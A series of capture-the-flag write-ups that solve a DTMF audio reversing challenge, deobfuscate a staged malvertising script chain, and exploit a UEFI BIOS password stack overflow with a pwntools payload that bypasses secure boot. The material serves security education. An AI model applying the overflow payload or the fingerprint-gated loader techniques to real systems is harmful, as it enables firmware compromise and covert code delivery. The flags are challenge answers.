    v10 = (double *)(16LL * ((signed int)a2 + i) + a1);
    *(_QWORD *)v10 = complex_add(v5, v6, v3);
    v10[1] = v6;
    v11 = (double *)(16LL * (i + (signed int)a2 + v12 / 2) + a1);
    complex_sub(a1);
    *v11 = v5;
    v11[1] = v6;
  }
}
```

The buffer contains audio data, `x` goes through powers of 2 (`2 ** 13 == 8192`), then has a loop over samples with an inner loop in the `y` function performing complex number operations. All of these are very strong hints that we are looking at a [Fourier transform](https://en.wikipedia.org/wiki/Discrete_Fourier_transform) function.

More specifically `x` and `y` form an implementation of the [iterative Cooley-Tukey Fast Fourier Transform with bit reversal](https://en.wikipedia.org/wiki/Cooley%E2%80%93Tukey_FFT_algorithm#Data_reordering,_bit_reversal,_and_in-place_algorithms).

In simple terms, the `x` function detects the volume of individual frequencies in the audio buffer. The description of the challenge further supports this theory. With this assumption, we can clean up `main`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 strError_; // rax
  int result; // eax
  __int64 strError; // rax
  double audioBuffer[4096]; // [rsp+18h] [rbp-28020h]
  complex fftBuffer[8192]; // [rsp+8018h] [rbp-20020h]
  state_s state; // [rsp+2801Ch] [rbp-1Ch]
  unsigned int paError; // [rsp+28028h] [rbp-10h]
  int subResult; // [rsp+2802Ch] [rbp-Ch]
  void *paServer; // [rsp+28030h] [rbp-8h]

  paServer = (void *)pa_simple_new(0LL, *argv, 2LL, 0LL, "record", &paSpec, 0LL, 0LL, &paError);
  if ( paServer )
  {
    state.field_0 = 0;
    state.field_4 = 0;
    state.field_8 = 0;
    do
    {
      if ( (signed int)pa_simple_read(paServer, audioBuffer, 0x8000LL, &paError) < 0 )
      {
        strError = pa_strerror(paError);
        fprintf(stderr, "pa_simple_read() failed: %s\n", strError);
        return 1;
      }
      fourier(audioBuffer, fftBuffer);
      subResult = r(&state, fftBuffer);
      if ( subResult < 0 )
      {
        fwrite("FAILED\n", 1uLL, 7uLL, stderr);
        return 1;
      }
    }
    while ( subResult );
    fwrite("SUCCESS\n", 1uLL, 8uLL, stderr);
    pa_simple_free(paServer, 1LL);
    result = 0;
  }
  else
  {
    strError_ = pa_strerror(paError);
    fprintf(stderr, "pa_simple_new() failed: %s\n", strError_);
    result = 1;
  }
  return result;
}
```

Now we can move on to the `r` function. There are several calls to a function called `f`, taking the result of the FFT and an integer:

```c
v8 = f(fftBuffer, 1209);
v9 = f(fftBuffer, 1336);
v10 = f(fftBuffer, 1477);
v11 = f(fftBuffer, 1633);
```

`f`:

```
double __fastcall f(complex *a1, int frequency)
{
  return cabs(a1[(frequency << 13) / 44100]);
}
```

`frequency` is given in Hertz, but then it is multiplied by `8192 / 44100`.

 - `44100` is the sampling rate - number of samples (doubles) per second recorded
 - `8192` is the size of the FFT buffer

From DFT we know that this index will represent the amplitude, i.e. [volume of the sinewave](https://en.wikipedia.org/wiki/Discrete_Fourier_transform#Motivation) (pure tone) at the given `frequency`. Let's name it `measureFrequency`.

So the `r` function measures a the loudness of various frequencies, specifically:

 - 1209, 1336, 1477, 1633
 - 697, 770, 852, 941

There are two groups, as shown above, and the maximum is picked for each. The index of the loudest frequency in the group is kept. Finally, these indices are combined into a single number `0` ... `15`.

```c
amplitudes1[0] = measureFrequency(fftBuffer, 1209);
amplitudes1[1] = measureFrequency(fftBuffer, 1336);
amplitudes1[2] = measureFrequency(fftBuffer, 1477);
amplitudes1[3] = measureFrequency(fftBuffer, 1633);
maxIndex1 = -1;
maxAmplitude1 = 1.0;
for ( i = 0; i <= 3; ++i )
{
  if ( amplitudes1[i] > maxAmplitude1 )
  {
    maxIndex1 = i;
    maxAmplitude1 = amplitudes1[i];
  }
}
amplitudes2[0] = measureFrequency(fftBuffer, 697);
amplitudes2[1] = measureFrequency(fftBuffer, 770);
amplitudes2[2] = measureFrequency(fftBuffer, 852);
amplitudes2[3] = measureFrequency(fftBuffer, 941);
maxIndex2 = -1;
maxAmplitude2 = 1.0;
for ( j = 0; j <= 3; ++j )
{
  if ( amplitudes2[j] > maxAmplitude2 )
  {
    maxIndex2 = j;
    maxAmplitude2 = amplitudes2[j];
  }
}
// ...
tone = maxIndex1 | 4 * maxIndex2;
```

There is a sequence position counter, which determines which "tone" is expected next:

```c
tone = maxIndex1 | 4 * maxIndex2;
success = 0;
switch ( state->field_4 )
{
  case 0u:
    success = tone == 9;
    goto EVALUATE;
  case 1u:
    success = tone == 5;
    goto EVALUATE;
  case 2u:
    success = tone == 10;
    goto EVALUATE;
  case 3u:
    success = tone == 6;
    goto EVALUATE;
  case 4u:
    success = tone == 9;
    goto EVALUATE;
  case 5u:
    success = tone == 8;
    goto EVALUATE;
  case 6u:
    success = tone == 1;
    goto EVALUATE;
  case 7u:
    success = tone == 13;
    goto EVALUATE;
  case 8u:
    if ( tone )
      goto EVALUATE;
    return 0;
  default:
EVALUATE:
    if ( success != 1 )
      return -1u;
    ++state->field_4;
    state->field_0 = 0;
    state->field_8 = 1;
    break;
}
```

So the tone sequence is:

    9, 5, 10, 6, 9, 8, 1, 13, 0

The final piece of the puzzle is to note the connection to phones since the challenge is called "dialtone". Searching for dialtone systems and the specific frequencies we have in the challenge leads us to [Dual-tone multi-frequency signaling](https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling). This system encodes numbers and symbols as combinations of two frequencies:

| -          | **1209 Hz** | **1336 Hz** | **1477 Hz** | **1633 Hz** |
| ---------- | ----------- | ----------- | ----------- | ----------- |
| **697 Hz** | 1           | 2           | 3           | A           |
| **770 Hz** | 4           | 5           | 6           | B           |
| **852 Hz** | 7           | 8           | 9           | C           |
| **941 Hz** | *           | 0           | #           | D           |

We can map all frequencies to their respective indices, then find the mapping of `tone` values to characters on a phone keypad:

| `maxIndex1` | Frequency 1 | `maxIndex2` | Frequency 2 | `tone` | Character |
| ----------- | ----------- | ----------- | ----------- | ------ | --------- |
| `0`         | 1209 Hz     | `0`         | 697 Hz      | `0`    | 1         |
| `1`         | 1336 Hz     | `0`         | 697 Hz      | `1`    | 2         |
| `2`         | 1477 Hz     | `0`         | 697 Hz      | `2`    | 3         |
| `3`         | 1633 Hz     | `0`         | 697 Hz      | `3`    | A         |
| `0`         | 1209 Hz     | `1`         | 770 Hz      | `4`    | 4         |
| `1`         | 1336 Hz     | `1`         | 770 Hz      | `5`    | 5         |
| `2`         | 1477 Hz     | `1`         | 770 Hz      | `6`    | 6         |
| `3`         | 1633 Hz     | `1`         | 770 Hz      | `7`    | B         |
| `0`         | 1209 Hz     | `2`         | 852 Hz      | `8`    | 7         |
| `1`         | 1336 Hz     | `2`         | 852 Hz      | `9`    | 8         |
| `2`         | 1477 Hz     | `2`         | 852 Hz      | `10`   | 9         |
| `3`         | 1633 Hz     | `2`         | 852 Hz      | `11`   | C         |
| `0`         | 1209 Hz     | `3`         | 941 Hz      | `12`   | *         |
| `1`         | 1336 Hz     | `3`         | 941 Hz      | `13`   | 0         |
| `2`         | 1477 Hz     | `3`         | 941 Hz      | `14`   | #         |
| `3`         | 1633 Hz     | `3`         | 941 Hz      | `15`   | D         |

Now we can map the sequence to the proper characters and put the result in `CTF{...}` (as per the challenge description) to get the flag:

`CTF{859687201}`

### Bonus

Just for fun, we can generate the audio signal that would produce the flag using real DTMF frequencies.

```bash
# depends on `sox` in PATH
sox -n -r 44100 -d --combine sequence \
    synth 0.1 sine 1336 sine 852 : \
    synth 0.1 sine 1336 sine 770 : \
    synth 0.1 sine 1477 sine 852 : \
    synth 0.1 sine 1477 sine 770 : \
    synth 0.1 sine 1336 sine 852 : \
    synth 0.1 sine 1209 sine 852 : \
    synth 0.1 sine 1336 sine 697 : \
    synth 0.1 sine 1336 sine 941 : \
    synth 0.1 sine 1209 sine 697
```

[Here is the generated wave file](files/dialtone.wav)

## 140 Reversing / Malvertising ##

**Description**

> Unravel the layers of malvertising to uncover the Flag
> 
> https://malvertising.web.ctfcompetition.com/

**No files provided**

**Solution**

Upon visiting the website, we are greeted with a fake YouTube page with an ad. All of it is just a static background image, except for the ad, which seems legit enough for uBlock to block it. Before diving into the ad itself, we note that the logo says "YouTube <sup>CA</sup>". Canada?

### Stage 1

The ad frame links to [`ads/ad.html`](files/malvertising1.html).

This file has some standard ad stuff, but more importantly links to a [JavaScript file](files/malvertising2.js):

```html
<script id="adjs" src="./src/metrics.js" type="text/javascript"></script>
```

Running the code through a [JavaScript beautifier](https://beautifier.io/) (result [here](files/malvertising2-b.js)), we can see a couple of top-level sections. The first starts with an immediately invoked anonymous function:

```js
! function(a, b, c) {
  "undefined" != typeof module && module.exports ? module.exports = c() :
    "function" == typeof define && define.amd ? define(c) : b[a] = c()
}("steg", this, function() {
  // ...
});
```

This seems like a universal module loader, compatible with CommonJS (`module.exports`), AMD (`define`), as well as browsers (`b[a] = c()` results in `this["steg"] = c()`, where `this` is just `window` here). The `steg` module defines some basic maths functions for dealing with primes, as well as an `encode` and `decode` function that accepts an image.

Next, there is a number of Base-64 strings in the `a` array. They decode to binary garbage, so they are probably encrypted. There are also several instances of code like `b("0x1", "...")`. The first number is always a hexadecimal integer (presumably an index in the `a` array), the second is always a four-character key. By modifiying the (unformatted) code to not do anything at the end but instead to [dump the decoded strings](scripts/malvertising2.html), we get the following listing:

```
b('0x0','Kb10')  => apply
b('0x1',')ID3')  => return (function() 
b('0x2','3hyK')  => {}.constructor("return this")( )
b('0x3','^aQK')  => console
b('0x4','bxQ9')  => console
b('0x5','bxQ9')  => log
b('0x6','vH0t')  => warn
b('0x7','bxQ9')  => debug
b('0x8','jAUm')  => info
b('0x9','SF81')  => exception
b('0xa','$KuR')  => trace
b('0xb','IfD@')  => console
b('0xc','%RuL')  => console
b('0xd','e9PJ')  => warn
b('0xe','(fcQ')  => console
b('0xf','xBPx')  => info
b('0x10','yDXL') => console
b('0x11','IDtv') => error
b('0x12','oBBn') => console
b('0x13','^aQK') => exception
b('0x14','F#*Z') => console
b('0x15','vH0t') => trace
b('0x16','%RuL') => constructor
b('0x17','jAUm') => getElementById
b('0x18','3hyK') => adimg
b('0x19','F#*Z') => onload
b('0x1a','OfTH') => decode
b('0x1b','JQ&l') => test
b('0x1c','IfD@') => userAgent
```

After the `b` function, there are three functions which seem to be anti-debugger, since they cause infinite loops and replace `console` functions. Finally, after replacing all the `b` calls, we come to the final part of the `metrics.js` script:

```js
var s = 'constructor';
var t = document['getElementById']('adimg');
t['onload'] = function() {
  try {
    var u = steg['decode'](t);
  } catch (v) {}
  if (Number(/android/i ['test'](navigator['userAgent']))) {
    s[s][s](u)();
  }
};
```

The `s[s][s]` bit is basically `eval`:

```js
>>> s
"constructor"
>>> s[s]
ƒ String() { [native code] }
>>> s[s][s]
ƒ Function() { [native code] }
```

`u`, the result of the steganography decoding of the `adimg` picture is executed if `android` is found in the visitor's `User-Agent` string. The result of the decoding is (with minor formatting adjustments):

```js
var dJs = document.createElement('script');
dJs.setAttribute('src','./src/uHsdvEHFDwljZFhPyKxp.js');
document.head.appendChild(dJs);
```

### Stage 2

We can run [the linked file](files/malvertising3.js) through the beautifier once again to get something [nicer](files/malvertising3-b.js). In this file, we have a set of functions in the `T` object, some polyfills for `String`, and then:

```js
function dJw() {
  try {
    return navigator.platform.toUpperCase().substr(0, 5)
    + Number(/android/i.test(navigator.userAgent))
    + Number(/AdsBot/i.test(navigator.userAgent))
    + Number(/Google/i.test(navigator.userAgent))
    + Number(/geoedge/i.test(navigator.userAgent))
    + Number(/tmt/i.test(navigator.userAgent))
    + navigator.language.toUpperCase().substr(0, 2)
    + Number(/tpc.googlesyndication.com/i.test(document.referrer) || /doubleclick.net/i.test(document.referrer))
    + Number(/geoedge/i.test(document.referrer))
    + Number(/tmt/i.test(document.referrer))
    + performance.navigation.type
    + performance.navigation.redirectCount
    + Number(navigator.cookieEnabled)
    + Number(navigator.onLine)
    + navigator.appCodeName.toUpperCase().substr(0, 7)
    + Number(navigator.maxTouchPoints > 0)
    + Number((undefined == window.chrome) ? true : (undefined == window.chrome.app))
    + navigator.plugins.length
  } catch (e) {
    return 'err'
  }
};
a = 
  "A2xcVTrDuF+EqdD8VibVZIWY2k334hwWPsIzgPgmHSapj+zeDlPqH/RHlpVCitdlxQQfzOjO01xCW/6TNqkciPRbOZsizdYNf5eEOgghG0YhmIplCBLhGdxmnvsIT/69I08I/ZvIxkWyufhLayTDzFeGZlPQfjqtY8Wr59Lkw/JggztpJYPWng=="
eval(T.d0(a, dJw()));
```

The Base64 string `a` seems encrypted (binary garbage when decoded). Based on this we can easily guess that `T.d0` is a decryption function using the result of the `dJw()` call as a key.

The key is a sort of browser fingerprint, constructed out of a number of checks. All `Number(...)` calls in the function take a boolean value and change it to `0` or `1`.

 - `LINUX` / `WIN32` / `MACIN` / ... - [`navigator.platform.toUpperCase().substr(0, 5)`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorID/platform) - the first five letters of the uppercased navigator platform
 - `0` / `1` - is `android` part of the [user agent](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorID/userAgent) string?
 - `0` / `1` - is `AdsBot` part of the user agent string?
 - `0` / `1` - is `Google` part of the user agent string?
 - `0` / `1` - is `geoedge` part of the user agent string?
 - `0` / `1` - is `tmt` part of the user agent string?
 - `EN` / `FR` / `SK` / ... - [`navigator.language.toUpperCase().substr(0, 2)`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorLanguage/language) - the first two letters of the uppercased navigator language
 - `0` / `1` - did the user [come from a URL](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) containing either `tpc.googlesyndication.com` or `doubleclick.net`?
 - `0` / `1` - did the user come from a URL containing `geoedge`?
 - `0` / `1` - did the user come from a URL containing `tmt`?
 - `0` / `1` / `2` / `255` - [how did the user navigate](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceNavigation/type) to the page?
 - `0` / `1` / ... - [how many redirections](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceNavigation/redirectCount) did the user go through before getting to the page?
 - `0` / `1` - are [cookies enabled](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/cookieEnabled)?
 - `0` / `1` - does the browser [think it is online](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorOnLine/onLine)?
 - `MOZILLA` - the uppercased [`appCodeName`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorID/appCodeName) (which is always `Mozilla`)
 - `0` / `1` - does the browser [support any number of touch points](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/maxTouchPoints)? (is it a touchscreen?)
 - `0` / `1` - is the user NOT on a Chromium-based browser?
 - `0` / `1` / ... - number of [installed plugins](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorPlugins/plugins)

Furthermore, it seems that even though this fingerprint can generate strings of 31 characters (or even longer due to `redirectCount` and `plugins.length`), only the first 16 characters are used as the decryption key.

Due to the various constant numbers in the `T` object, e.g. `2654435769 == 0x9E3779B9`, we can guess it is an implementation of the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).

So we have a ciphertext, a decryption method, and the general layout of the key with a rather limited keyspace. With the assumption that the challenge would actually decrypt and run successfully from beginning to end for *some* real user agent, we can also use two pieces of information we gathered before:

 - the user agent string must contain `android` - we can fix `navigator.platform.toUpperCase().substr(0, 5)` to be `LINUX`
 - the YouTube page indicated a Canadian region code - we can fix `navigator.language.toUpperCase().substr(0, 2)` to be `EN` or `FR` (`navigator.language` would be e.g. `fr_CA`)

What remains is 9 characters (`16 - "LINUX".length - "EN".length`) all of which can be `0` or `1`, except the last one, which can also be `2`. Just 1536 possibilities, very quick to brute-force.

> And here is where our team hit a snag - we wrote a decryption script and run it in Node.JS, but it produced no results. We expanded the brute-force to be quite exhaustive, trying different values for `navigator.platform`, hundreds of possible language codes, nothing produced any code. It turns out the decryption code as-is simply does not function identically on Node.JS. Running the brute-force script on a browser leads to the next stage in a matter of seconds. We did not manage to think of this during the CTF, which cost us the flag. What follows is a write-up of steps taken after the CTF.
>
> [More on that later...](#what-breaks-on-nodejs)

[Full decryption script here](scripts/malvertising3.html)

With the key `LINUX10000FR1000`, we get:

```js
var dJs = document.createElement('script');
dJs.setAttribute('src','./src/npoTHyBXnpZWgLorNrYc.js');
document.head.appendChild(dJs);
```

### Stage 3

Yet again we take [the file](files/malvertising4.js) and [beautify it](files/malvertising4-b.js). We can see the same patterns of encoding as in the previous stage (array of Base64-encoded strings, 4-character keys, multiple functions to prevent debugging). However, this time we need only load the JS file locally as-is in a browser with the console closed, *then* open the console to see an error - the JS file tries to load the file `WFmJWvYBQmZnedwpdQBU.js`!

And that file simply contains the flag:

```js
alert("CTF{I-LOVE-MALVERTISING-wkJsuw}")
```

The last stage contained references to RTC/STUN servers, which may have been interesting to (try to) reverse, but it would be wasted effort!

`CTF{I-LOVE-MALVERTISING-wkJsuw}`

### What breaks on Node.JS?

Finally, let's check what makes the script work in a browser but break in Node.JS. We can strip most of the functions out from the [file](files/malvertising3-b.js) and track it down to how a binary string is treated after it is decoded from Base-64.

```js
String.prototype.b1 = function() {
  if ('undefined' != typeof atob)
    return atob(this);
  if ('undefined' != typeof Buffer)
    return new Buffer(this, 'base64').toString('utf8');
  throw new Error('err')
};

var a = "A2xcVTrDuF+EqdD8VibVZIWY2k334hwWPsIzgPgmHSapj+zeDlPqH/RHlpVCitdlxQQfzOjO01xCW/6TNqkciPRbOZsizdYNf5eEOgghG0YhmIplCBLhGdxmnvsIT/69I08I/ZvIxkWyufhLayTDzFeGZlPQfjqtY8Wr59Lkw/JggztpJYPWng=="

let raw = a.b1();
let ccs = [];
for (let i = 0; i < raw.length; i++) {
  ccs.push(raw.charCodeAt(i));
}
console.log(ccs);
```

If we run the above script on a browser, we get an array like:

```js
[3, 108, 92, 85, 58, 195, 184, 95, 132, ...]
```

The same on Node.JS produces a different result:

```js
[3, 108, 92, 85, 58, 248, 95, 65533, 65533, 65533, ...]
```

`65533` is the Unicode codepoint which Node.JS uses to indicate invalid UTF-8 decoding. Some character got jumbled (`195 184` -> `248`). The problem is that the Node.JS version is decoding the result of the Base-64 decoding as UTF-8, but binary data in general is not valid UTF-8. In particular, any byte over 127 has a special meaning in UTF-8. It seems that the `atob` function always treats the encoded data as [Latin-1](https://en.wikipedia.org/wiki/ISO/IEC_8859-1). Its complementary function, `btoa`, throws an error if the input string contains characters outside the Latin-1 range.

We can make the Node.JS version work by simply replacing the `Buffer` line with:

```js
    return new Buffer(this, 'base64').toString('latin1');
```

It is unfortunate this tiny misstep cost us the flag, but we can take solace in knowing it was not worth too many points.

## 271 Pwn / SecureBoot ##

### Overview

In this challenge, a Linux OS is given and what we need to do is boot this OS. However, it seems that secure boot is preventing us from doing so. We then tried to enter BIOS and found that we need to enter a password first. After some reverse engineering, we found that there is a stack overflow when password is obtained from user. By exploiting this vulnerability, we could enter the BIOS, thus disable the secure boot and successfully boot the OS, in which flag can be read.

### Password Interface

**Discovery**

After some trials, my teammate [@Retr0id](https://github.com/DavidBuchanan314) found that we can get into a password user interface by pressing `ESC` at the first booting stage (e.i. before secure booting violation error appears). 

```
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?

```

Interesting! This is very possible to be the key to solve the challenge, and it finally turns out to be true.

Then we need to find the codes corresponding to password processing logic. My teammate [@Retr0id](https://github.com/DavidBuchanan314) has dumped the following PE files using `uefitool`: [secmain.exe](files/secmain.exe) and [uiapp.exe](files/uiapp.exe). However, by searching strings in all files using `strings` command in Linux, we still failed to find strings like `"Welcome to the BIOS!"` or `"Password?"`. Fortunately, after some investigation, we found them at `uiapp.exe`:



Therefore the reason why `strings` command failed to work is clear: these strings are encoded in `UTF-16LE`, thus cannot be found by `strings` which is used to search `ascii` strings.

By using cross reference, it was clear that `sub_FE50` is the function to process the input password.

**Reverse Engineering**

Firstly, function `0x13fd` takes strings like `L"*   Welcome to the BIOS!   *\n"` as argument, and there is a `va_start` in its implementation, so I would guess it is `wprintf`, which is just `printf` but argument should be `UTF-18` string.

Then, in `sub_FE50`, global pointers `0x1bc68` and `0x1bc78` are used for indirect function call. By looking for cross references of these 2 variables, we found that they are initialized at function `ModuleEntryPoint(0x8CB4)`. Here we found `0x1bc68` is assigned by `SystemTable` and `0x1bc78` is assigned by `SystemTable->BootServices`. `SystemTable` is the argument passed into `ModuleEntryPoint` and luckily IDA has relative structure information. We change type of `0x1bc68` to `EFI_SYSTEM_TABLE *` and `0x1bc78` to `EFI_BOOT_SERVICES *`, and also names are also changed. There are also some other assignment at this initialization function, their names and types are also modified just in case.

```c
::SystemTable = SystemTable;  // 0x1bc68
v2 = SystemTable->BootServices;
v3 = SystemTable->RuntimeServices;
::ImageHandle = ImageHandle;
BootServices = v2;  // 0x1bc78
RuntimeServices = v3;
```

After type modification, the loop used to obtain one password becomes this, which is certainly more clear:

```c
while ( 1 )
{
  while ( 1 )
  {
    v8 = ((__int64 (__fastcall *)(EFI_SIMPLE_TEXT_INPUT_PROTOCOL *, 
      EFI_INPUT_KEY *))SystemTable->ConIn->ReadKeyStroke)(
           SystemTable->ConIn,
           &input); // try to read a character
    if ( v8 >= 0 )
    {
      if ( input.UnicodeChar )
        break; // a character has been read
    }
    if ( v8 == 0x8000000000000006i64 ) // if no chacacter is read, block and wait for event 
      ((void (__fastcall *)(signed __int64, EFI_EVENT *, char *))BootServices->WaitForEvent)(
        1i64,
        &SystemTable->ConIn->WaitForKey,
        &v6);
  }
  if ( input.UnicodeChar == '\r' )
    break; // input terminates if '\r' is received
  if ( i <= 0x8Bu )
  { // append the character to result buffer
    v3 = i++;
    v7[v3] = input.UnicodeChar;
  }
  wprintf("*");
}
```

As its name suggests, `ReadKeyStroke` is used to get a character from user. The second argument is the buffer used to receive the character, the structure of the buffer is shown below.

```c
typedef struct {
  UINT16  ScanCode;
  CHAR16  UnicodeChar;
} EFI_INPUT_KEY;
```

So we need to change variable `input` to this type in IDA. However, function `ReadKeyStroke` is a non-block function, and return a negative error value when no key is pressed. If so, blocked function `WaitForEvent` will be called to wait for key stroke event, and will return if there is any new event.

After reading the input, the input is passed into `0x20A3`, which, by searching constants and by testing using simple string, we found it to be `sha256` hashing algorithm. The result is then compared, and password is correct only if the hash is `DEADBEEFDEADBEEFDEADBEEFDEADBEEFDEADBEEFDEADBEEFDEADBEEFDEADBEEF`, so it is certainly not possible to find string to satisfy the condition.

```c
v7[i] = 0;
wprintf(L"\n");
sha256_maybe(v7, i, dst); // 0x20A3
if ( *dst == 0xDEADBEEFDEADBEEFi64
  && dst[8] == 0xDEADBEEFDEADBEEFi64
  && dst[16] == 0xDEADBEEFDEADBEEFi64
  && dst[24] == 0xDEADBEEFDEADBEEFi64 )
{
  free(v2);
  return 1i64; // returning 1 means the password is correct
}
```

In addition, according to my guess, `0x11A8` is `malloc` and `0xC46` is `free`, since `0x11A8` takes a size and returns a pointer being used as that buffer size, and `0xC46` takes a pointer and is called when password interface function terminates. This turns out to be true, because of these codes found in these 2 functions.

```c
/* 
function call chain: malloc -> sub_1199 -> sub_E400
as the function name `AllocatePool` suggests, 
memory is allocated, 
which means this is probably `malloc`
*/
__int64 __usercall sub_E400@<rax>(__int64 a1@<rdi>)
{
  __int64 v2; // [rsp+28h] [rbp-10h]

  if ( (BootServices->AllocatePool)(4i64, a1, &v2) < 0 )
    v2 = 0i64;
  return v2;
}
/*
function call chain: free -> sub_C3C,
similarly, this is probably `free`
*/
__int64 __cdecl sub_C3C(void *a1)
{
  return ((__int64 (__fastcall *)(void *))BootServices->FreePool)(a1);
}
```

**Vulnerability**

The vulnerability is a stack overflow when obtaining password. The buffer size is `0x80` but the check is `i <= 0x8Bu`, so we can write 12 more bytes. This is the stack layout.

```c
char v7[128]; // [rsp+38h] [rbp-B0h]
__int64 v8; // [rsp+B8h] [rbp-30h]
_QWORD *dst; // [rsp+C0h] [rbp-28h]
```

`v8` is used to store return value of function `ReadKeyStroke` and is used only after being reassigned by the return value of that function, so overwriting it is not very useful. However, `dst`, which is used to store the `sha256` result when function `sha256_maybe` is called, can be used to achieve arbitrary write.

### Debug Environment

Before exploitation, we may need to successfully debug this password interface subroutine. 

**Debug Option of QEMU**

To debug the binary, we need to set `-s` option in QEMU command in file `run.py`, then launch `gdb` in without any argument, and use `target remote localhost:1234` `gdb` command to start debugging.

**Find PE in Memory**

First of all, we need to know where `uiapp.exe` PE file is mapped into the memory. We assumed that there is no ASLR first, and that PE file is loaded at page aligned address (so least 12 bits of address should be same as least 12 bits in IDA).

My approach to find the PE file is to press `ctrl+c` when password need to be inputted. My idea is that since `WaitForEvent` is a blocked function, `ctrl+c` must terminates in this function or its subroutine functions that it calls. If we inspect the stack at this time, we must be able to find the return address of function `WaitForEvent`, which is inside the `uiapp.exe` PE module, and whose least 12 bits must be `f5e`.



Finally, at `rsp+0x120`, we found the return address to be `0x67daf5e`, and if you restart the challenge and repeat these steps, you will find the address to have the same value, which suggests that the ASLR is not enabled. In addition, you can also find that stack address is also a constant value, which is great and a important feature for us to exploit.

Therefore, it is easy for us to calculate the base address: `0x67daf5e - 0xff5e = 0x67cb000`, so we can rebase the program in IDA to make things more convenient.

Also, after knowing where the PE file is loaded, we can set breakpoint.

### Exploitation

**Idea**

So, what we can do is to write a `sha256` hash into a arbitrary 4-byte address. Obviously the idea is try to bypass the password verification. Here is how the password interface function is called:

```assembly
.text:00000000067D4D2F      call    password_FE50
.text:00000000067D4D34      test    al, al
.text:00000000067D4D36      jnz     short loc_67D4D49
```

Firstly, we tried to rewrite the instruction. For example, if we write `jnz` to `jmp`, we can always let this function jump to the branch of correct password. However, according to [this](https://edk2-docs.gitbooks.io/a-tour-beyond-bios-memory-protection-in-uefi-bios/memory-protection-in-uefi.html), it seems that the text memory is protected and not writable, so this approach does not work.

As I mentioned before, the stack address is not randomized, so why not rewrite return address of password verification function in stack directly? It should be `0x67D4D34`, but if we can modify it to `0x67D4D49`, the control flow will jump to the branch of correct password directly as the password verification returns. To be specific, what we need to do is to rewrite the least significate byte to `\x49`, which is the first byte since it is little-endian.

**Find Where the Return Address is Stored**

This is not so hard, what we need to do is to set a breakpoint at the `ret` instruction of the password interface function (e.i. `password_FE50`), and see the current `rsp` value. To be specific, we use command `b *0x67DB0BB`, and enter wrong password for 3 times, then the function will exit and breakpoint can be triggered.



As shown clearly above, the return address is stored in address `0x7ec18b8`.

**Specific Exploitation**

Now the particular steps are clear. Firstly, we need to use overflow to rewrite the variable `dst` to `0x7ec18b8 - 32 + 1`, so that the last byte of the hash is the least significate byte of return address. Then we need to find a string such that the last byte of its `sha256` hash is `\x49`. Note that, the actual payload that we are going to send is `'A' * 0x88 + p32(0x7ec18b8 - 32 + 1) + '\r'`, where the `A` prefix should be modified to make last byte of the hash `\x49`. However, when the input is used to calculate hash value, actual bytes used is `'A' * (0x80) + p64(0) + p32(0x7ec18b8 - 32 + 1)`. This is because variable `v8` just after the password buffer will be assigned to return value of `ReadKeyStroke`, which is zero at this point.

Therefore, here is the script to obtain the payload prefix:

```python
import binascii
from pwn import *

for i in xrange(0x10000):
	pld = hex(i)[2:]
	dk = hashlib.sha256(pld + 'A' * (0x80-4) + p64(0) + p32(0x7ec18b8 - 32 + 1)).hexdigest()
	dk = binascii.unhexlify(dk)
	if ord(dk[31]) == 0x49:
		print pld
```

There are many outputs, and we just chose `'1010'` as the prefix.

Therefore, finally the payload to be sent as password is this:

```python
sh.send('1010' + 'A' * 0x84 + p32(0x7ec18b8 - 32 + 1) + '\r')
```

### Tackle with BIOS

Now we finally got into BIOS interface. The idea is to disable secure boot here and reboot the OS. However, if we run the script locally, the BIOS interface we get is this:



which is very ugly because it print the control characters used to draw UI as raw bytes, I failed to find `pwntool` functionality to make this more readable, but fortunately when this is run remotely the UI can be shown.



Okay, but how can we move the cursor? After some investigation, we found that `sh.send('\x1b[B')` is equivalent to key `down`, that `sh.send('\x1b\x1b')` is equivalent to key `ESC`, and that `sh.send('\r')` is equivalent to key `Enter`.

Then we have explored this BIOS, and found option to disable secure boot in `Device Manager`, and rebooted the OS successfully in which the flag can be read, which is just a boring process and not worth discussing...

The final [exploit](files/secureboot.py).